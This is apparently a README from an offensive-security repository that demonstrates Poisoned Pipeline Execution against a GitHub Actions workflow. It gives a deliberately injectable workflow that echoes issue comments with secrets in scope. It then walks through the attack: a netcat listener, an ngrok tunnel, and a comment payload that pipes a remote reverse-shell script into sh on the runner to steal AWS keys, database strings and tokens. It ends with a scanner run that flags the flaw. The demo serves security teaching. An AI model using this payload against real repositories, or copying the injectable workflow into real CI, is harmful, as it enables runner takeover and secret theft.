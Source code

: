 # Github Actions: Poisoned Pipeline Execution


This folder showcases an attack against a GitHub Action Pipeline vulnerable to [*PPE*](https://github.com/R3DRUN3/sploitcraft/tree/main/ci-cd/ppe).  
For a complete hacking lab leveraging PPE as the attack's entry point, take a look at [*this*](../../../labs/pipes-to-cloud/).   


### Demo Objective 

The objective of this demo is to illustrate how an attacker can exploit a vulnerable GitHub Action setup to:

- Execute remote code.

- Exfiltrate sensitive secrets from the GitHub runner environment.

## Prerequisites 

To run this demo, ensure you have:

- Access to a GitHub repository with GitHub Actions enabled.


## Instructions 
 
1. **Repo Creation** : Create a new Github repo and add some github action's secrets (eg `AWS_API_KEY`, `MYSQL_CONNECTION_STRING` and `GENERIC_TOKEN`)  
 
2. **Configuration** : Inside the new repo, create the `.github/workflows` folder.
 
3. **Action Manifest** : Inside the workflow folder, create a yaml file called `vulnerable.yaml` and copy the following manifest inside:  
```yaml
name: command-injection-demo
on:
  issue_comment:
    types: [created]
jobs:
  auto-manage-new-issue:
    runs-on: ubuntu-latest
    steps:
      - name: Retrieve Issue Information
        run: |
          echo ${{ github.event.comment.body }}
        env:
          AWS_API_KEY: ${{ secrets.AWS_API_KEY }}
          MYSQL_CONNECTION_STRING: ${{ secrets.MYSQL_CONNECTION_STRING }}
          GENERIC_TOKEN: ${{ secrets.GENERIC_TOKEN }}
```  

This GitHub Action workflow (`command-injection-demo`) triggers on the creation of new comments inside an issue.  
Upon activation, it retrieves the body of the comment (`${{ github.event.comment.body }}`) and echoes it directly within the workflow execution environment.  
The vulnerability lies in the lack of input sanitization for `${{ github.event.comment.body }}`.  
Since the workflow echoes this variable without any validation or sanitization, an attacker can potentially pipe and inject arbitrary operating system commands into the workflow.  
By crafting a malicious comment, an attacker could exploit this vulnerability to execute unauthorized commands within the GitHub Actions environment and exfiltrate the secrets (`AWS_API_KEY`, `MYSQL_CONNECTION_STRING` and `GENERIC_TOKEN`).  


 
4. **Exploit** : Create a new issue and add a new comment to it, see what happens:  

![legit-comment](./images/legit_issue_comment.png)  
![legit-action-run](./images/legit_action_run.png)   
 
As you can see the action was triggered by our comment and printed out the body of the comment.  

At this point we can proceed to poison the execution 😈

In order to do that we will use [*ngrok*](https://ngrok.com/) (you can also use [*Cloudflare Tunnels*](https://www.cloudflare.com/products/tunnel/) or whatever tool fit the need to seamlessy expose a local service to the internet).  


Open a new nectcat listener on your local machine:  
```sh
nc -lnvp 1337
```  

Forward an ngrok tcp tunnel on the same port: 

```sh
ngrok tcp 1337
```  

Now, retrieve the `Forwarding` address (DNS name) from ngrok output and with that we can construct our malicious payload (you can also use ngrok public IP instead of the dns name).  

Our payload will be:  
```console
"" && sh -c 'curl https://reverse-shell.sh/<NGROK-IP-OR-DNS-NAME>:<NGROK-PUBLIC-PORT> | sh'
```  


This payload will be the body of our new malicious comment on the GitHub issue:  
![payload](./images/ppe_payload.png)  

When we leave this comment, it will trigger the GitHub Action, and that payload will be injected directly into the runner (agent) of the action and executed, thereby opening a reverse shell within the remote environment of the pipeline.    
From there, we will have the ability to exfiltrate secrets.    
Watch a demonstration of the entire workflow in the following video:  


https://github.com/R3DRUN3/sploitcraft/assets/102741679/ffd8696e-1271-469e-9629-38c3b087f28c  

</br>

We can inspect repositories to find possible misconfiguration leading to PPE with [poutine](https://github.com/boostsecurityio/poutine) (or other tools mentioned [here](https://github.com/myugan/awesome-cicd-security?tab=readme-ov-file#tools)):  

```console
docker run -e GH_TOKEN ghcr.io/boostsecurityio/poutine:latest analyze_repo r3drun3/vuln

Rule: Injection with Arbitrary External Contributor Input
Severity: warning
Description: The pipeline contains an injection into bash or JavaScript with an expression 
that can contain user input. Prefer placing the expression in an environment variable 
instead of interpolating it directly into a script.
Documentation: https://boostsecurityio.github.io/poutine/rules/injection

+--------------+--------------------------------+----------------------------------------------------------------------------+
|  REPOSITORY  |            DETAILS             |                                    URL                                     |
+--------------+--------------------------------+----------------------------------------------------------------------------+
| r3drun3/vuln | .github/workflows/issue.yaml   | https://github.com/r3drun3/vuln/tree/HEAD/.github/workflows/issue.yaml#L10 |
|              | Job: auto-manage-new-issue     |                                                                            |
|              | Step: 0                        |                                                                            |
|              | Sources:                       |                                                                            |
|              | github.event.comment.body      |                                                                            |
|              |                                |                                                                            |
+--------------+--------------------------------+----------------------------------------------------------------------------+
```










